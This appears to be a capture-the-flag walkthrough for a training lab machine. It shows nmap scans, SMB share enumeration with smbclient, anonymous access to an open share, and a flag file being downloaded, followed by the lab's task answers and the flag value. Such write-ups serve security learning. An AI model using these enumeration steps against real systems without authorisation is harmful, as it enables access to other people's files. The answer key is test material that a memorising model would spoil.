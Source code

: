 ## Walkthrough

- performed nmap scans

```
┌─[birb@parrot]─[~]
└──╼ $nmap 10.129.163.162
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 15:15 IST
Nmap scan report for 10.129.163.162
Host is up (0.47s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 45.44 seconds
```

```
┌─[birb@parrot]─[~]
└──╼ $nmap 10.129.163.162 -sC -sV -p 135,139,445
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-16 15:17 IST
Nmap scan report for 10.129.163.162
Host is up (0.36s latency).

PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3h59m59s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-16T13:47:35
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.65 seconds
```

- got smb shares list using `smbclient -L ip`

```
┌─[birb@parrot]─[~]
└──╼ $smbclient -L 10.129.163.162
Password for [WORKGROUP\birb]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
SMB1 disabled -- no workgroup available
```

- connected to `WorkShares` smb share (no password required)

```
┌─[birb@parrot]─[~]
└──╼ $smbclient //10.129.163.162/WorkShares
Password for [WORKGROUP\birb]:
Try "help" to get a list of possible commands.
smb: \>
```

- NOTE: instead of connecting to the samba share, you can mount the share to a local mount point

```
mount -t cifs //10.129.163.162/WorkShares /path/to/mount/point
```

- transfered `flag.txt` to local machine using `get`

```
WorkShares/
├── Amy.J
│   └── worknotes.txt
└── James.P
    └── flag.txt

2 directories, 2 files
```

```
smb: \> get James.P\flag.txt 
getting file \James.P\flag.txt of size 32 as James.P\flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \> quit
```

- got the flag

```
┌─[birb@parrot]─[~]
└──╼ $cat James.P\\flag.txt 
5f61c10dffbc77a704d76016a22f1664
```

## Tasks

**What does the 3-letter acronym SMB stand for?**

=> Server Message Block

**What port does SMB use to operate at?**

=> 445

**What is the service name for port 445 that came up in our Nmap scan?**

=> microsoft-ds

**What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share?**

=> -L

**How many shares are there on Dancing?**

=> 4

**What is the name of the share we are able to access in the end with a blank password?**

=> WorkShares

**What is the command we can use within the SMB shell to download the files we find?**

=> get

**Submit root flag**

=> 5f61c10dffbc77a704d76016a22f1664
